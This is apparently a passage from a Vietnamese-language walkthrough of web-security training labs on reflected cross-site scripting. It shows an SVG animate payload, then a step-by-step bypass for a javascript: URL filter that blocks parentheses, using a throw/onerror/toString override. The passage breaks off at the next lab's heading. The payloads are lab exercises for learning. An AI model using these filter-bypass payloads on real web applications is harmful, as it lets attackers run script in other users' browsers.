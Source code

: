 Payload 2: 

```
<svg><a><animate attributeName=href values=javascript:alert(1)/><text x=20 y=20>Click me</text></a>
```

<hr>

### Bài 26: Reflected XSS in a JavaScript URL with some characters blocked

>![](https://i.imgur.com/GL0iPpT.png)

Bài lab reflect input của chúng ta trong một javascript url, ứng dụng filter một số kí tự có thể gây ra XSS. Để solve bài lab, khai thác và gọi được `alert(1337)`

Khi truy cập vào mã nguồn bất kì và xem mã html, ta thấy đường link được reflect ở phần `Back to Blog` như sau:

```htmlembedded=
<div class="is-linkback">
  <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d2'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>
```

Thử khai thác bằng cách chèn thêm tham số rác vào (vì dùng html fragment không reflect được), ví dụ nhét thêm `&abc=def` 

Để escape khỏi javascript URL, ta đi từng bước 1. Chú ý vì các kí tự đã bị urlencode trước khi reflected, không xử dụng được các `tag` cũng như `event`

Để ý kĩ hơn, ta thấy cặp dấu `( )` đã bị block. Không thể gọi hàm trực tiếp ở đây.

=> Tìm được solution là dùng `throw` như cheatsheet dưới đây

>![](https://i.imgur.com/ThNN1tM.png)



- Đầu tiên escape khỏi phần **body** của fetch bằng `'}`

- Set biến x như là 1 hàm thực hiện chức năng alert và gán toString=x, khi thực hiện `window +'' `, Javascript sẽ gọi toString để cast biến window sang string, và việc gọi tới toString cũng tức là gọi tới x (do toString đã bị ghi đè)=> kích hoạt được alert
```
,x=x=>{throw/**/onerror=alert,1337},toString=x,window+''
```

- Để không break cặp dấu `'}` của thẻ body lúc đầu, ta thêm `,{x:'`

Ghép lại với nhau ta có: 

`&abc='},x=x=>{onerror=alert;throw/**/1},toString=x,window+'',{x:'`

>![](https://i.imgur.com/o3rpmSj.png)


<hr>

### Bài 27: Reflected XSS with AngularJS sandbox escape without strings
